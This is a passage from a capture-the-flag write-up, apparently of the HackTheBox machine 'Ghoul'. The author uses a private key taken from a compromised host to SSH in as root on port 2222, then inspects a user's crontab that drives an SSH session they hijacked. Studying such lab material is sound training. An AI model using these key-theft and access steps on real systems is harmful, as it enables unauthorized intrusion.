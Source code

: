     
    
    root@Aogiri:~/.ssh# ls /home/
    kaneki
    

And his public key matches:

    
    
    root@Aogiri:~/.ssh# diff -s authorized_keys /home/kaneki/.ssh/id_rsa.pub 
    Files authorized_keys and /home/kaneki/.ssh/id_rsa.pub are identical
    

I can grab the private key from the same directory, and ssh in from kali using
port 2222:

    
    
    root@kali# ssh -i ~/id_rsa_ghoul_root -p 2222 root@10.10.10.101
    Welcome to Ubuntu 18.04.1 LTS (GNU/Linux 4.15.0-45-generic x86_64)
    
     * Documentation:  https://help.ubuntu.com
     * Management:     https://landscape.canonical.com
     * Support:        https://ubuntu.com/advantage
    
    
     * Canonical Livepatch is available for installation.
       - Reduce system reboots and improve kernel security. Activate at:
         https://ubuntu.com/livepatch
    
    155 packages can be updated.
    0 updates are security updates.
    
    Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings
    
    Last login: Sat Sep 14 09:06:41 2019 from 172.18.0.200
    root@Aogiri:~# 
    

### SSH Cron

With access to the host, I can look at what’s going on that’s causing the ssh
forwarding that I hijack. I don’t see any crons for the root user, but there
is one for kaneki:

    
    
    root@Aogiri:~# crontab -l 
    no crontab for root
    root@Aogiri:~# su kaneki
    kaneki@Aogiri:/root$ crontab -l
    ...[snip]...
    # m h  dom mon dow   command
    */6 * * * *     ~/login.sh
    

I’ll checkout `login.sh`:

    